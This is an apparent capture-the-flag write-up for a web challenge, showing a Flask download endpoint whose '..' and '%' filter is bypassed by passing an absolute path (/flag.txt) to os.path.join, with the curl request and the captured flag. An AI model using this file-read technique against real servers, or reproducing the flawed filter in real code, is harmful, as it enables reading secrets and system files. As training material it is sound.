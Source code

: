 ## Description

Last year we had Jokes hub, what about a memes hub?
you will cry until you get the flag.

**source code available**

## Solution

when we visit the website we get this page :

![mainpage](images/mainpage.png)

and when we click `download` we get the image, let's check the download source code :

```python
@app.route('/download',methods=['GET'])
def download():
    # cry until you get the flag
    file=request.args.get('file','cry-until-you-get-the-flag.png')

    # Always care about security, block directory traversals, this filter cannot be bypassed
    if (".." not in file) and ("%" not in file):

        # get files inside /memes/ directory
        meme_path = os.path.join(app.root_path,'memes', file)

        if os.path.isfile(meme_path):
            # send file to user
            return send_file(meme_path,as_attachment=True)

        # cry until you get the flag
        else: return send_file("memes/cry-until-you-get-the-flag.png",as_attachment=True)
    else:
        # cry until you get the flag
        return send_file("memes/cry-until-you-get-the-flag.png", as_attachment=True)
```

so it's getting the image name from the GET parameter `file`, then it joins that name to this path `/app/memes/`,so the full image path would be `/app/memes/IMAGE_NAME.png`, it's doing that with this line :

```python
meme_path = os.path.join(app.root_path,'memes', file)
```

we can't try path traversal to get the flag instead cause the `..` and `%` characters are filtered, so we need to think of something else.

if we search a bit about the .join function, we find this :

```
If any component is an absolute path, all previous path components will be discarded.
```

so this means if we specify the absolute path to a file, the previous joined path will be discarded, let's try that, first we need to know where the flag is, if we check the `Dickerfile`, we will know that the flag is in `/flag.txt` :

```
COPY flag.txt /
```

now let's request the download and specify the absolute path to the flag :

```plaintext
└─$ curl 'https://memes-hub.hackini24.shellmates.club/download?file=/flag.txt' -k -s

shellmates{J01N_4bS0lut3_pATh_F0R_LFI}
```

- flag: `shellmates{J01N_4bS0lut3_pATh_F0R_LFI}`
